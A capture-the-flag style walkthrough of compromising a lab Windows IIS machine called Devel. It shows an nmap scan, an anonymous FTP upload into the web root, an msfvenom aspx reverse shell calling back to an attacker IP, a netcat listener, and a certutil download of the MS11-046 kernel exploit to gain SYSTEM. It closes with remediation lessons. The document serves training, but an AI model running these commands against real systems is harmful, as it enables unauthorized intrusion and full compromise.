







# Devel without Metasploit

## Enumeration

### Run nmap scan:

#### **`nmap -T4 -p- -A 10.10.10.5`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.


#### Dissecting the Results:

* **Port 21:** Anonymous login is allowed, meaning, we can login with the username _**anonymous**_ and any password.
* **Port 80:** Running a Microsoft IIS HTTP web server.

Use the anonymous login for FTP and check the directory:



This looks as though the FTP server is in the same root as the web server. If this is the case, we could possibly upload our payload via FTP, we could navigate to it through the web server and gain a shell.

Let's test this theory by uploading a simple HTML file via FTP displaying the text "Hello world"





## Exploitation

Great! The test was a success, so let's go ahead and craft a payload using msfvenom. Microsoft IIS typically uses asp and aspx file formats and they are also executables:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f aspx -o exploit.aspx
```

* **-p flag:** Payload type.
* **LHOST:** Listening IP address of the attacking machine.
* **LPORT:** Listening port of the attacking machine.
* **-f flag:** File format of payload.
* **-o flag:** Where to save the file as well as name the file.

Run your netcat listener:

```text
nc -nlvp 7777
```

Then navigate to the webpage that includes the payload. This may take a little while and the page will finish loading with a white background. Check the netcat listener and voila! A shell has been caught.




When running `whoami` we discover we are _**iis apppool\web**_. We cannot access the C:\Users\babis and C:\Users\Administrator directories as we do not have permission. From here, we must escalate our privileges.

### Privilege Escalation

We must further enumerate the system and we can start by typing `systeminfo` for the following results:



Google _**6.1.7600 N/A Build 7600 privilege escalation**_ and we will come across an Exploit-DB link titled '_**Microsoft Windows \(x86\) - 'afd.sys' Local Privilege Escalation \(MS11-046\)**_'. This is the exploit we will use. Within the exploit, it is noted we must compile it with the command:



```text
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

If mingw32 is not installed, we can do so with the command:

```text
apt-get install mingw-w64
```

In the Exploit-DB link, the ID for the exploit is 40564 so we will use searchsploit to copy the exploit to our directory we type it from:

```text
searchsploit -m 40564
```

Let's compile the exploit now with the command mentioned before, but slightly modified like so:

```text
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Once compiled, let's host an HTTP server of the directory:

```text
python -m SimpleHTTPServer 80
```

Then we will use the certutil command \(windows equivalent to linux's wget command\) to grab the exploit from our attacking machine's hosted directory. Before we do this, we must navigate to directory **C:\Users\Public\Downloads\** as we will get an "Access is denied" error message if we type it in the default directory we got the shell in.

```text
certutil -urlcache -f http://10.10.14.95/40564.exe 40564.exe
```

Check the directory to confirm we have the exploit, then simply run it. Run `whoami` and we confirm we now have System level privileges!



### User.txt and root.txt flags

Finally, grab your user and root flags.


## Lessons Learned

We were able to gain a foothold on the machine due to insecure configuration of the FTP server. We were able to use anonymous login and discovered the FTP server shared the same root directory as the HTTP server and could confirm this by uploading a simple HTML test file then navigating to it in a web browser. This proved we could upload an exploit and gain a low privileged shell.

To prevent this vulnerability being exploited, one of the following should be done:

* Disable anonymous login to the FTP server.
* If anonymous login is necessary, disable the ability to upload and only allow downloads from the FTP server.

The other vulnerability that was exploited was the Windows kernel for privilege escalation. This could have been remediated if the system was updated and patched.

